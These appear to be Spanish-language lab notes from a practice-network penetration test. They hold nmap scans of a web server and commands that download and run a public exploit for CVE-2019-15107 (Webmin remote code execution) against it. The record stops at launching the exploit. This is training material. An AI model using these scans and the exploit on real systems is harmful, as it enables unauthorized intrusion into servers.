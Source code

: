 - Hay que descargar un archivo de configuración vpn independiente primero.
- Hay 3 máquinas en la red
- Hay un servidor web público
- Hay un servidor git en algun lugar de la red, con información sensitiva
- Hay una pc dentro de la red que tiene un antivirus instalado, windows no se accede directamente


## prod-server

- ip del server
  
```bash
10.200.81.200
```

- escaneo nmap
  
```bash
nmap -n -Pn -p- -v -T5 10.200.81.200

PORT      STATE  SERVICE          REASON
22/tcp    open   ssh              syn-ack ttl 63
80/tcp    open   http             syn-ack ttl 63
443/tcp   open   https            syn-ack ttl 63
9090/tcp  closed zeus-admin       reset ttl 63
10000/tcp open   snet-sensor-mgmt syn-ack ttl 63



nmap -p 22,80,443,9090,1000 -sV 10.200.81.200

Starting Nmap 7.60 ( https://nmap.org ) at 2022-12-15 03:24 GMT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.0016s latency).

PORT     STATE    SERVICE    VERSION
22/tcp   open     ssh        OpenSSH 8.0 (protocol 2.0)
80/tcp   open     http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
443/tcp  open     ssl/http   Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
1000/tcp filtered cadlock
9090/tcp closed   zeus-admin

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.71 seconds

```

- Agregar al `/etc/hosts`
thomaswreath.thm

- Una vulnerabilidad en el puerto 10000 (cve-2019-15107)
- Clonamos el repo y corremos el exploit
```bash
wget https://raw.githubusercontent.com/MuirlandOracle/CVE-2019-15107/main/CVE-2019-15107.py
python3 -m pip install prompt_toolkit
python3 CVE-2019-15107.py 10.200.194.200 

root@ip-10-10-117-54:~/CVE-2019-15107# python3 -m pip install prompt_toolkit
Collecting prompt_toolkit
  Using cached prompt_toolkit-3.0.36-py3-none-any.whl (386 kB)
Collecting wcwidth
  Using cached wcwidth-0.2.5-py2.py3-none-any.whl (30 kB)
Installing collected packages: wcwidth, prompt-toolkit
Successfully installed prompt-toolkit-3.0.36 wcwidth-0.2.5
WARNING: You are using pip version 20.2.2; however, version 22.3.1 is available.
You should consider upgrading via the '/usr/bin/python3 -m pip install --upgrade pip' command.
root@ip-10-10-117-54:~/CVE-2019-15107# python3 CVE-2019-15107.py 10.200.81.200
```